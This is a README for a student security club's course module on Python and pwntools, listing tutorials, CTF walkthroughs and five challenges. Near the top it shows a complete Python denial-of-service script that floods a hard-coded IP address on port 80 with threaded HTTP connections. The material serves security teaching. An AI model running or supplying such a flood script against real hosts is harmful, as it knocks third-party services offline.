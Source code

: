 [![Open in Visual Studio Code](https://classroom.github.com/assets/open-in-vscode-f059dc9a6f8d3a56e377f745f24479a46679e63a5d9fe6f495e02850cd0d8118.svg)](https://classroom.github.com/online_ide?assignment_repo_id=7004972&assignment_repo_type=AssignmentRepo)
# Module-1 Week-2+0.5 (Python) 🐍

Welcome to the second week (actually 1.5 weeks) of YoS :) </br>
This week we will be covering Python along with one of its very powerful library **pwntools**.
<p align="center">
<img src="https://user-images.githubusercontent.com/81357954/153569492-a10ef6ad-3e2a-45ed-bb46-8758eae71cbf.png" alt="drawing" width="400"/>
</p>

**Why it is called Python [:)?](https://docs.python.org/3/faq/general.html#:~:text=Details%20here.-,Why%20is%20it%20called%20Python%3F,to%20call%20the%20language%20Python.)** </br>

[**Python**](https://en.wikipedia.org/wiki/Python_(programming_language)) is an [interpreted](https://www.ibm.com/docs/en/zos-basic-skills?topic=zos-compiled-versus-interpreted-languages) general-purpose programming language. It is one of the most popular and widely-used programming languages in the world due to its high usability and large collection of libraries. 
Again Python is an open source software like Linux. So you can look up its source code [here](https://github.com/python/cpython), though you are not encouraged to read them 🦖.

Is Python itself written in C or C++? [An interesting read](https://softwareengineering.stackexchange.com/questions/20988/why-is-python-written-in-c-and-not-in-c) on this.
Unlike C or C++, Python has [automatic memory management](https://www.geeksforgeeks.org/memory-management-in-python/) i.e. in Python memory allocation and deallocation method is automatic, since it has its own garbage collector, so that the user does not have to do manual garbage collection. Python is a [dynamically typed](https://www.geeksforgeeks.org/type-systemsdynamic-typing-static-typing-duck-typing/) programming language which makes it more succint. 

We prefer Python in Cybersecurity, because complex scripts or attacks can be easily written in it. It helps to automate tasks across the cyberattack life cycle for both cyber attackers and defenders. Also, debugging python codes is quite simple.

``` python
import socket
import threading
target = '103.21.127.134'
fake_ip = '182.21.20.32'
port = 80
def attack():
    while True:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target, port))
        s.sendto(("GET /" + target + " HTTP/1.1\r\n").encode('ascii'), (target, port))
        s.sendto(("Host: " + fake_ip + "\r\n\r\n").encode('ascii'), (target, port))
        s.close()
for i in range(500):
    thread = threading.Thread(target=attack)
    thread.start()
```
<p align="center">
  Snippet of a simple <a href ="https://en.wikipedia.org/wiki/Denial-of-service_attack">DoS attack</a> script in python. 
</p>


## Installation
We are not taking up `how to install python`. Since it is available by default on Linux. Also, just a google search away :).</br>
[Here](http://docs.pwntools.com/en/latest/install.html) is the link to install `pwntools`. Though it comes pre installed on the VM we have provided.

## Overview
This week's content includes an introduction to Python(syntax and such stuff). These resources will make you comfortable with python.</br>
Followed by an introduction to [pwntools](http://docs.pwntools.com/en/latest/), an interesting framework. `Pwntools` in itself is a huge package and even a dedicated module would be less to know everything about it. It will get you familiar with writing exploit scripts in Python.</br>
Some other important modules/libraries regularly used are [sys](https://docs.python.org/3/library/sys.html), [os](https://docs.python.org/3/library/os.html), [subprocess](https://docs.python.org/3/library/subprocess.html), all these are in-built python modules.

## Our Introductory Session for Python

[CSeC - Intro to Python](https://iitbacin.sharepoint.com/:v:/s/CSecClub/ETXm3oSRRoJKgKDCaKLiRbYBTh5fLAYkaow3MX59-5FTyQ?e=1rRkWg) | [Colab Notebook link](https://colab.research.google.com/drive/1jtco0kzb9pg7eAPUEh4VEAP8k7Iq1J3P?usp=sharing)

Credits to [scimaths](https://github.com/scimaths) 🙏
## Text guides

1. [Pico Primer(python + other basics)](https://primer.picoctf.com/#_programming_in_python)
2. [Intro to Python](http://introtopython.org/) (You may skip classes)
3. [Pwntools Cheat Sheet](https://gist.github.com/anvbis/64907e4f90974c4bdd930baeb705dedf)

## Video guides
- Another brief learn python [playlist](https://www.youtube.com/playlist?list=PLQVvvaa0QuDeAams7fkdcwOGBpGdHpXln) (The first 8 videos (85 mins) of the playlist are enough to get you going, you may skip the remaining videos :)


## CTF challenge Walkthroughs
1. string evaluation of input in python2 [HSCTF - Python Remote Code Execution ](https://www.youtube.com/watch?v=gmaWOknsb2A) (5 min) | Read more about Python2.x [input vulnerability](https://www.geeksforgeeks.org/vulnerability-input-function-python-2-x/)
1. pwntools process interaction [GOOGLE CTF 2021](https://www.proggen.org/doku.php?id=security:ctf:writeup:google:2021:filestore) (good read)
2. pwntools in bash [TAMU CTF 2020](https://www.youtube.com/watch?v=fZ3mPRctbO0) (17 mins)
3. Request module usage [OverTheWire natas level4](https://www.youtube.com/watch?v=Sf63W1xXzNU) (11  mins)
4. Pyjail  [Offshift 2021](https://www.youtube.com/watch?v=aK3b0PM1Fz8) (6 mins)

Now you may move to **Challenges** section to complete this week's material. Optimal duration to complete all the above material is 1.5 weeks(11 days).

## Practice
- [PicoGym](https://play.picoctf.org/practice) (Filter challenges by **General Skills**)
# Challenges

We have designed 5 challenges (in increasing order of difficulty):

1. [bruteforcer](bruteforcer)
2. [notwordle](notwordle)
3. [pyjail](pyjail)
4. [tic-tac-toe](tic-tac-toe)
5. [minesweeper](minesweeper)

All challenges are present in different folders of this
repository. All in all, you would need to solve **atleast 2 challenges throughtout the module** but we encourage that you solve all of these, for things are more fun that way 😊.
Make sure you go through the respective `README.md` files before jumping into the challenge. Have fun! 😁

Discussions among mentees are encouraged and we request you to use our [Discord Server](https://discord.gg/nnpCPsUrYV) for the same.
<p align="center">Created with :heart: by <a href="https://linktr.ee/csec.iitb">CSeC</a></p>
